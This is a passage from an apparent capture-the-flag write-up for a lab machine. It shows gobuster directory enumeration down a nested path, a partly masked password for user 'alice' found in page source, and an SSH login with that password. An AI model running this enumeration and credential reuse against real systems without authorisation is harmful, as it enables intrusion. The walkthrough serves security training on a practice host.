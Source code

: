 ```

/r                    (Status: 301) [Size: 0] [--> r/]  
===============================================================
2021/06/25 11:31:40 Finished
===============================================================
```
we found a `/r` directory, let use gobuster again to scan this directory

`gobuster dir -u http://10.10.254.5/r/ -w /usr/share/wordlists/dirb/common.txt`

```

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.254.5/r/a
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/06/25 11:35:48 Starting gobuster in directory enumeration mode
===============================================================

/b                    (Status: 301) [Size: 0] [--> b/]

/index.html           (Status: 301) [Size: 0] [--> ./]
===============================================================
2021/06/25 11:37:40 Finished
===============================================================
```

we found another directory `/b`, after scanning it again you will find another directory `/b` which itself contains `/i`, on scanning `/i` another directory `/t` will show up and it will be the last directory `http://10.10.254.5/r/a/b/b/i/t/`

Let's **view the page source code of `http://10.10.254.5/r/a/b/b/i/t/`**.

We get `alice:H***************************************l`

Let's use above credentials to gain access via **ssh** as **alice**.
`ssh alice@10.10.254.5`

```
kali@localhost:~$ ssh alice@10.10.254.5
The authenticity of host '10.10.254.5 (10.10.254.5)' can't be established.
ECDSA key fingerprint is SHA256:HUoT05UWCcf3WRhR5kF7yKX1yqUvNhjqtxuUMyOeqR8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.254.5' (ECDSA) to the list of known hosts.
alice@10.10.254.5's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jun 26 08:06:30 UTC 2021

  System load:  0.08               Processes:           85
  Usage of /:   18.9% of 19.56GB   Users logged in:     0
  Memory usage: 13%                IP address for eth0: 10.10.254.5
  Swap usage:   0%


```